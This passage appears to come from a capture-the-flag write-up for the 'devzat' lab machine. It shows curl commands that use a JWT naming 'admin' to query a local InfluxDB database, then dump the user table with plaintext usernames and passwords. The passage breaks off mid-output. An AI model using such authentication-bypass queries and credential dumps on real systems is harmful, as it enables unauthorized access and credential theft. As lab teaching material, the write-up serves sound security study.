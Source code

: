 

    patrick@devzat:~$ token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I"
    patrick@devzat:~$ curl -G --data-urlencode "q=SHOW Measurements" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "measurements",
                        "columns": [
                            "name"
                        ],
                        "values": [
                            [
                                "user"
                            ]
                        ]
                    }
                ]
            }
        ]
    }



Only one table, `user`.

I'll dump all the data, making sure to put the table name in `"` which
need to be escaped:



    patrick@devzat:~$ curl -G --data-urlencode "q=select * from \"user\"" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "user",
                        "columns": [
                            "time",
                            "enabled",
                            "password",
                            "username"
                        ],
                        "values": [
                            [
                                "2021-06-22T20:04:16.313965493Z",
                                false,
                                "WillyWonka2021",
                                "wilhelm"
                            ],
                            [
                                "2021-06-22T20:04:16.320782034Z",
                                true,
                                "woBeeYareedahc7Oogeephies7Aiseci",
                                "catherine"
                            ],
                            [
                                "2021-06-22T20:04:16.996682002Z",
                                true,
                                "RoyalQueenBee$",